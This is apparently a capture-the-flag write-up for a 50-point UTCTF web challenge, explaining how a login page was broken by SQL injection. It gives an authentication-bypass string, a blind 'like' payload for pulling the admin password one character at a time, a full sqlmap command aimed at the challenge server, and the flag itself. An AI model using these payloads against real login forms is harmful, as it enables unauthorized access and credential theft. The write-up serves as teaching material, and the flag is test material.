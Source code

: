 # [Web] epic admin pwn - (50 pts)

## Description

this challenge is epic i promise

the flag is the password

[link](http://web2.utctf.live:5006/)

_by matt_

## Solution

Since we can sign in using `' or 1=1--` as username, we know that the website is vulnerable to SQL injection.

By using `admin' and password like 'utctf{%'--`, we can sign in successfully, too.

Then, we can get the flag cahracter by character using the payload above.

> By using sqlmap, we can get the flag without writing the script ourselves.
> $ sqlmap -u "http://web2.utctf.live:5006/" --data "username=test&pass=test" -p "username,pass" --technique B --dump

Flag `utflag{dual1pa1sp3rf3ct}`
